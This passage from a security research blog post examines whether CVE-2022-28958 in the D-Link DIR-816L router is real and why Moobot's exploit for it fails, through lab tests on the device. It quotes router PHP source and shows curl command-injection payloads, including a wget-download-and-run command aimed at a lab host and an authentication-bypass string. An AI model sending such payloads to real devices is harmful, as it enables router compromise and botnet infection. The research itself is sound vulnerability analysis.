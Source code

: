 \`getcfg.php\`:\\n\\n\`\`\`php\\nif ($\_POST\["CACHE"\] == "true")\\n{\\n echo dump(1, "/runtime/session/".$SESSION\_UID."/postxml");\\n}\\nelse\\n{\\n if($AUTHORIZED\_GROUP < 0)\\n {\\n /\* not a power user, return error message \*/\\n echo "\\tFAILED\\n";\\n echo "\\tNot authorized\\n";\\n }\\n else\\n {\\n /\* cut\_count() will return 0 when no or only one token. \*/\\n $SERVICE\_COUNT = cut\_count($\_POST\["SERVICES"\], ",");\\n TRACE\_debug("GETCFG: got ".$SERVICE\_COUNT." service(s): ".$\_POST\["SERVICES"\]);\\n $SERVICE\_INDEX = 0;\\n while ($SERVICE\_INDEX < $SERVICE\_COUNT)\\n {\\n $GETCFG\_SVC = cut($\_POST\["SERVICES"\], $SERVICE\_INDEX, ",");\\n TRACE\_debug("GETCFG: serivce\[".$SERVICE\_INDEX."\] = ".$GETCFG\_SVC);\\n if ($GETCFG\_SVC!="")\\n {\\n $file = "/htdocs/webinc/getcfg/".$GETCFG\_SVC.".xml.php";\\n /\* GETCFG\_SVC will be passed to the child process. \*/\\n if (isfile($file)=="1")\\n {\\n AES\_Encrypt\_DBnode($GETCFG\_SVC, "Encrypt");\\n dophp("load", $file);\\n AES\_Encrypt\_DBnode($GETCFG\_SVC, "Decrypt");\\n }\\n }\\n $SERVICE\_INDEX++;\\n }\\n }\\n}\\n\`\`\`\\n\\nAfter reading the above code, it’s obvious the researcher's proof of concept is useless. It doesn’t touch the endpoint where the vulnerable code allegedly resides, and the endpoint it does reach doesn’t do anything with the provided parameters. It’s amusing that, apparently, the Moobot developers copied the researcher’s mistake. Pictured below, from Unit 42's \[blog\](https://unit42.paloaltonetworks.com/moobot-d-link-devices/), is Moobot's implementation of CVE-2022-28958 as seen via Wireshark:\\n\\n!\[censys\](/blog/moobot-uses-fake-vulnerability/moobot\_exploit.png){:width="100%"}\\n\\nAbove, Moobot sends an HTTP POST request to \`getcfg.php\` using both the \`action\` and \`value\` parameters just as the researcher’s incorrect proof of concept did. As we've seen, \`getcfg.php\` doesn't handle \`action\` or \`value\`. Moobot's exploit doesn’t work.\\n\\nIf the screenshot can be trusted, the Moobot developers also encoded the payload incorrectly. By using \`value=&\` instead of \`value=%26\`, they've messed up the (assumed) command injection and simply set \`value\` to an empty string. Also, the authentication bypass at the end (\`AUTHORIZED\_GROUP=1\` aka CVE-2022-28956, CVE-2020-15894, CVE-2020-9376, CVE-2019-17506, and CVE-2018-7034) \*\*has to\*\* start with \`%0a\` to work, which isn't the case here.\\n\\nEither way, the exploit can't work because it's hitting the wrong endpoint. Which is interesting, but that doesn't mean \`shareport.php\` isn't exploitable. Let’s do some testing to prove that CVE-2022–28958 doesn’t exist!\\n\\n# Local Testing of a D-Link DIR-816L\\n\\nThe affected DIR-816L is end-of-life, but it was easy find one on Ebay. Fortuatunely, the affected firmware, 2.06.B01, is also available on D-Link’s legacy \[files archive\](http://legacyfiles.us.dlink.com/DIR-816L/REVB/SECURITY\_PATCHES/):\\n\\n!\[censys\](/blog/moobot-uses-fake-vulnerability/legacy\_files.png){:width="100%"}\\n\\nSo we had everything needed to test the device in a local lab setup. We started testing by throwing the researcher’s original proof of concept at the device.\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl -d "action=sethostname&value=%26%20ls%20-la%20%26%0aAUTHORIZED\_GROUP=1" http://192.168.0.1:80/getcfg.php\\n\`\`\`\\n::\\n\\n\`\`\`xml\\n\\n\\n\\n\`\`\`\\n\\nUnderwhelming to say the least. No indication that \`& ls -l &\` was executed. So we tried the Moobot payload.\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl -d "action=sethostname&value=& wget http://192.168.0.164/test; chmod 777 test; ./test & AUTHORIZED\_GROUP=1" http://192.168.0.1:80/getcfg.php\\n\`\`\`\\n::\\n\\n\`\`\`xml\\n\\n\\n FAILED\\n Not authorized\\n\\n\`\`\`\\nWe received a “Not authorized” response because the authorization bypass didn’t work, as we predicted earlier in the blog. Without a working bypass, the attacker needs to be authenticated to the device. This is a fairly important detail that NIST overlooked when assigning CVE-2022-28958 a CVSSv3 score of 9.8. CISA, presumably, also overlooked this when they added CVE-2022–28958 to the KEV Catalog but not CVE-2022–28956.\\n\\n\\nIf we fix Moobot's exploit to use the bypass correctly, fix the (assumed) command injection, and simplify the payload then we get this:\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl -d "action=sethostname&value=%26%20wget%20http://192.168.0.164/test%20%26%0aAUTHORIZED\_GROUP=ok" http://192.168.0.1:80/getcfg.php\\n\`\`\`\\n::\\n\\n\`\`\`xml\\n\\n\\n\\n\`\`\`\\n\\nNow, in this case, we had \`nc\` listening for a \`wget\` callback on 192.168.0.164, and we do know that \`wget\` is present on the DIR-816L. But, again, we get nothing from the device:\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~$ sudo nc -lvnp 80\\n\[sudo\] password for albinolobster:\\nListening on 0.0.0.0 80\\n\`\`\`\\n::\\n\\nBut remember, we didn't expect any of that to work anyway. We already knew \`getcfg.php\` is the wrong endpoint. We only tested the original researcher's proof of concept to be thorough. What we really want to know is if \`shareport.php\` is exploitable as the original writeup and CVE description suggest. Let’s try the previous \`wget\` payload, but this time pointed at \`shareport.php\`:\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl -d "action=sethostname&value=%26%20wget%20http://192.168.0.164/test%20%26%0aAUTHORIZED\_GROUP=ok" http://192.168.0.1:80/shareport.php\\n\`\`\`\\n::\\n\\n\`\`\`xml\\n\\n\\n sethostname\\n OK\\n \\n\\n\`\`\`\\n\\nA new response! But still no \`wget\` request to our listening \`nc\` on port 80. Maybe the researcher’s original \`& ls -la &\` payload will yield a